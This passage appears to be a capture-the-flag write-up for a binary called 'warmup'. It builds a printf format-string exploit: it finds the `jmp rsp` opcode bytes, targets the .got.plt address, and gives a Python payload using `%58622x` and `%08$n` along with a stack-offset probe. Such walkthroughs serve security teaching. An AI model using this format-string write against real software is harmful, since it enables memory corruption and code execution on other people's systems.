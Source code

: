 First, create a C program to get the `jsr rsp` byte values?

```
echo 'void main() { __asm__("jmpq *%rsp"); }' >test.c
gcc -o test test.c
objdump -M intel -d test | grep 'jmp' | grep rsp
```
```
 5fe:	ff e4                	jmp    rsp
```

`0xe4ff` (little endian), nice and small.

Next, where to write `0xe4ff` to:

```
objdump -h warmup | grep got.plt
```
```
 21 .got.plt      00000038  0000000000601000  0000000000601000  00001000  2**3
```

`0x601000` looks promising.

Next, craft and tryout payload:

```
import struct

payload = ""
payload += "%58622x "
payload += "%08$n   "
payload += struct.pack("<Q",0x601000)

print payload
```

Above is a `printf` format string that will get passed to `gets`, and `printf` will just print it.  It is important the format string be divisible by 8 so that the target address is not split across the stack.

The payload up to this point needs to output via `printf` `0xe4ff` (58623) bytes. The `"%58622x "` string will use 8 bytes of memory (reg/stack), and will output exactly 58622 bytes + 1 for the trailing space to stdout.

When `printf` parses `%08$n`, nothing is output to stdout.  Instead it skips to the 8th 64-bit pointer, and reads that address, then writes the output byte counter (58623) to that address.

Why the 8th pointer?

> Speculation:  x86_64 `printf` `%` anything will start with 6 of the registers, assuming that will be `%00$p` - `%05$p`, then the 24 bytes above would be on the stack as `06`, `07`, `08`.

To find it, run this repeatably with different values until you find your address on the stack:

```
python -c 'print "NNNNNNx " + "%08$p   " + "AAAAAAAA"' | ./warmup | grep NNNNNN
```
```
NNNNNNx 0x4141414141414141   AAAAAAAA
```
